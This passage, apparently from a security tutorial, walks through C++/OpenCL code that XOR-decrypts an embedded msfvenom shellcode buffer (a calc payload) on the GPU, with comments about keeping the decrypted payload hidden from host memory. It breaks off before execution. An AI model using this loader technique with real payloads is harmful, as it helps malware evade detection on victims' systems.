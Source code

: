 ```cpp
const char* xorKernelSource[] = { //                                
"__kernel void decrypt(__global char* encrypted, __global char* password, __global char* output) { output[get_global_id(0)] = encrypted[get_global_id(0)] ^ password[0];  }"
};
```

We define the Kernel-function `decrypt` which will do the decryption for us. `get_global_id(0)` gets the worker-thread ID, which is passed on to the Kernel when invoked later. We are running one thread for each byte in the shellcode, as you will see below.

```cpp
int main() 
{
    // msfvenom calc payload, xor encrypted with 'k' as key
    unsigned char buf[] = "\x97\x23\xe8\x8f\x9b\x83\xab\x6b\x6b\x6b\x2a\x3a\x2a\x3b\x39\x3a\x3d\x23\x5a\xb9\x0e\x23\xe0\x39\x0b\x23\xe0\x39\x73\x23\xe0\x39\x4b\x23\xe0\x19\x3b\x23\x64\xdc\x21\x21\x26\x5a\xa2\x23\x5a\xab\xc7\x57\x0a\x17\x69\x47\x4b\x2a\xaa\xa2\x66\x2a\x6a\xaa\x89\x86\x39\x2a\x3a\x23\xe0\x39\x4b\xe0\x29\x57\x23\x6a\xbb\xe0\xeb\xe3\x6b\x6b\x6b\x23\xee\xab\x1f\x0c\x23\x6a\xbb\x3b\xe0\x23\x73\x2f\xe0\x2b\x4b\x22\x6a\xbb\x88\x3d\x23\x94\xa2\x2a\xe0\x5f\xe3\x23\x6a\xbd\x26\x5a\xa2\x23\x5a\xab\xc7\x2a\xaa\xa2\x66\x2a\x6a\xaa\x53\x8b\x1e\x9a\x27\x68\x27\x4f\x63\x2e\x52\xba\x1e\xb3\x33\x2f\xe0\x2b\x4f\x22\x6a\xbb\x0d\x2a\xe0\x67\x23\x2f\xe0\x2b\x77\x22\x6a\xbb\x2a\xe0\x6f\xe3\x23\x6a\xbb\x2a\x33\x2a\x33\x35\x32\x31\x2a\x33\x2a\x32\x2a\x31\x23\xe8\x87\x4b\x2a\x39\x94\x8b\x33\x2a\x32\x31\x23\xe0\x79\x82\x3c\x94\x94\x94\x36\x23\xd1\x6a\x6b\x6b\x6b\x6b\x6b\x6b\x6b\x23\xe6\xe6\x6a\x6a\x6b\x6b\x2a\xd1\x5a\xe0\x04\xec\x94\xbe\xd0\x9b\xde\xc9\x3d\x2a\xd1\xcd\xfe\xd6\xf6\x94\xbe\x23\xe8\xaf\x43\x57\x6d\x17\x61\xeb\x90\x8b\x1e\x6e\xd0\x2c\x78\x19\x04\x01\x6b\x32\x2a\xe2\xb1\x94\xbe\x08\x0a\x07\x08\x45\x0e\x13\x0e\x6b\x6b";
    unsigned char key[] = "k"; // our xor key
    char finalPayload[SHELLCODE_LENGTH] = { 0 }; // buffer for the decrypted payload

    /* Boilerplate code removed */

    // Setup our buffers, so we can pass them to the Kernel
    // We will map them as pointers to host memory
    cl_mem shellcodeEncrypted = clCreateBuffer(context.get(), CL_MEM_READ_ONLY | CL_MEM_COPY_HOST_PTR, dataSize, buf, &err);
    cl_mem xorKey = clCreateBuffer(context.get(), CL_MEM_READ_ONLY | CL_MEM_COPY_HOST_PTR, sizeof(char), key, &err);
    // the decrypted shellcode will be read out later and is not mapped to host memory in order to hide it as long as possible
    cl_mem shellcodeDecryptedOut = clCreateBuffer(context.get(), CL_MEM_READ_WRITE, dataSize, NULL, &err);

    // Create our kernel from source
    cl_program kernel = clCreateProgramWithSource(context.get(), 1, xorKernelSource, NULL, &err);
    cl_int res = clBuildProgram(kernel, 0, NULL, NULL, NULL, NULL);
    
    // Get a handle to the kernel function for decryption
    cl_kernel decryptKernelFunctionHandle = clCreateKernel(kernel, "decrypt", &err);
    
    // Set arguments for the decryption function. These are the buffers we created earlier
    clSetKernelArg(decryptKernelFunctionHandle, 0, sizeof(cl_mem), (void*)&shellcodeEncrypted);
    clSetKernelArg(decryptKernelFunctionHandle, 1, sizeof(cl_mem), (void*)&xorKey);
    clSetKernelArg(decryptKernelFunctionHandle, 2, sizeof(cl_mem), (void*)&shellcodeDecryptedOut);

    // Launch the kernel on the GPU with one work item per byte
    size_t workSize = SHELLCODE_LENGTH;
    err = clEnqueueNDRangeKernel(queue, decryptKernelFunctionHandle, 1, NULL, &workSize, NULL, 0, NULL, NULL);
   
    // Copy the output from GPU memory back to CPU memory
    err = clEnqueueReadBuffer(queue, shellcodeDecryptedOut, CL_TRUE, 0, dataSize, finalPayload, 0, NULL, NULL);
  
    // Print decrypted payload
```